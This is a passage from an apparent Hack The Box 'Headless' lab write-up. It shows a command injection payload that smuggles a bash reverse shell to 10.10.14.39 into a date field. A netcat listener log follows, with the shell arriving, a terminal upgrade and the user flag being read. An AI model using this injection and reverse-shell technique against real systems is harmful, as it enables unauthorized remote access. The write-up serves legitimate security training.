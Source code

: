 It's vulnerable to command injection, get a shell

- Payload : `2023-09-15#; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.39/1111 0>&1' #`

![](/assets/obsidian/50f3ef9389f1bb8e2858910449682dde.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Headless]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.11.8] 43554
bash: cannot set terminal process group (1396): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
dvir@headless:~/app$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Headless]
└─$ stty raw -echo;fg
stty rows 50 columns 209
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
dvir@headless:~/app$ stty rows 50 columns 209
dvir@headless:~/app$ id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
dvir@headless:~/app$ cat ~/user.txt
98b00990c9c341b5f00fc55754df1873
```

# Root Flag
---
